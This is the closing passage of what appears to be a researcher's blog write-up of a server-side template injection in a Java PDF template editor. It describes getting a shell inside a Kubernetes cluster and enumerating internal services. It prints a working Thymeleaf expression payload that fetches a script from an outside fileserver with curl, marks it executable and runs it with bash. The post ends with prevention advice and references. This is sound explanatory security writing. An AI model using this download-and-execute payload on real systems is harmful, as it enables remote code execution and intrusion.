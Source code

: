 3 pdf generations later, I got a shell within the K8s cluster. From here we can query and enumerate internal services such as `kube-dns`. There is also a potential way to [escalate privileges to Cluster Admin](https://blog.ropnop.com/attacking-default-installs-of-helm-on-kubernetes/), by abusing Helm's tiller-deploy  but that's out-of-scope and a story for another time.

```bash
# awesome off-the-land lookup
$ getent hosts kube-dns.kube-system.svc.cluster.local                                         
10.x.x.x	kube-dns.kube-system.svc.cluster.local
$ getent hosts tiller-deploy.kube-system.svc.cluster.local
10.x.x.x	tiller-deploy.kube-system.svc.cluster.local
```

**Template editor**

For the template editor, mentioned earlier the exploitation was pretty straight-forward and will not be explained in detail. I just created a template with the following code in it and generated the pdf. The only extra thing I did was to use `waitFor()`, to ensure command chain is executed in the right order and no race conditions arise.

```
 [[${
@java.lang.Runtime@getRuntime().exec('curlXhttp://<fileserver>/sX-oX/tmp/s'.split('X')).waitFor(), @java.lang.Runtime@getRuntime().exec('chmodX+xX/tmp/s'.split('X')).waitFor(), @java.lang.Runtime@getRuntime().exec('bashX-cX/tmp/s'.split('X')).waitFor()
 }]]
```

## Conclusion

SSTI vulnerabilities are not something new, in fact they have been researched in-depth by some of the most knowledgeable people in the field. I keep on mentioning pdfs, throughout this post, even though the bug has nothing to do with pdfs, to aim focus on where to look for SSTIs. Most online examples, use applications that have vulnerable HTTP parameters reflected into templates. Here we have an SSTI on a non-MVC application, which is kind of odd. If you are dealing with an application that allows you to dynamically generate pdfs or fancy footers for email notifications, chances are there is some template rendering involved. Anyways, so far I found RCEs on Java based application really intimidating, but now I can understand them better. The bottom line is; avoid generating and modifying templates, from user supplied data. If business requirements dictate so, there are [things you can do](https://portswigger.net/web-security/server-side-template-injection#how-to-prevent-server-side-template-injection-vulnerabilities), but are quite hard to implement. 

## References

[Acunetix: Exploiting Thymeleaf SSTI](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/)

[Server-Side Template Injection: RCE For The Modern Web App](https://www.youtube.com/watch?v=3cT0uE7Y87s)

[Java EL Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#expression-language-el)



[Back](https://gian2dchris.github.io/)